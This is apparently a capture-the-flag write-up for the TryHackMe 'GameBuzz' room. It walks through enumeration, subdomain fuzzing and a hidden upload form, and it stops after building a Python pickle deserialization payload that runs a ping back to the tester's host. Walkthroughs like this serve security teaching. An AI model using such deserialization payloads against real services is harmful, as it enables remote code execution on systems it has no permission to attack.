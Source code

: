 <h3> GameBuzz TryHackMe </h3>

Difficulty = Hard

Nmap Scan:
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2b8867ef-56a0-43e5-860d-f2453459c873)

Going over to the web server shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/72c13526-255a-4bc4-ae0b-8d729902260d)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/358c80bb-9bcd-49ff-9d4d-d22e05cf18b7)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/57414644-72f7-45a4-8ba3-b3ba4eb2e751)

Noticing the email *admin@incognito.com* we can deduct that the domain name is *incognito.com*

I'll add that to my */etc/hosts* file

Now poking around this web app i saw the *Game Rating* function
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/35f31582-8204-4839-a88f-ee25889b5252)

When you click it and then click game 1 with a proxy on this is what I got
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/73392813-ef46-4ce4-98e4-add3c1cfbfc9)

```json
{"object":"/var/upload/games/object.pkl"}
```

We can see that it's loading the object pickled file 🤔

Let's keep this in mind!

Now for more enumeration since we have the domain lets fuzz for sub domains 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a6783ee6-458f-4c0c-a655-c34d945fe539)

I got *dev* so i'll update my */etc/hosts* file with the new subdomain *dev.incognito.com*

Going over to the newly founded subdomain shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/406ca395-c76f-41f1-b11a-b2948a14d85a)

Checking */robots.txt* shows */secret*
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2b6d8c8c-0285-4aec-bd2b-13f7bc04f112)

But after navigating to */secret* gives 403 forbidden
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/add9bbf8-6807-4155-ae7d-659b2488e247)

So I fuzzed for files there and got */upload*
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/c1966332-64c8-4382-8ed7-75c9343d5055)

Moving there shows an upload form 

Now this is good cause remember from the main domain we can call any pickled file and since we are opportuned to upload any file lets upload a pickle file

I made a script to make icmp callback to my host

```python
#!/usr/bin/python3
# Author: Hack.You
import os
import pickle

class Shell(object):
    def __reduce__(self):
        cmd = 'ping -c 5 10.2.42.156'
        return (os.system, (cmd,))

pickledData = pickle.dumps(Shell())
with open('payload.pkl', 'wb') as f:
    f.write(pickledData)
```

Running it creates the pickle file 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/3d67b081-9fbf-44dd-92bf-e90fb55d9253)

Now let upload the serialized payload
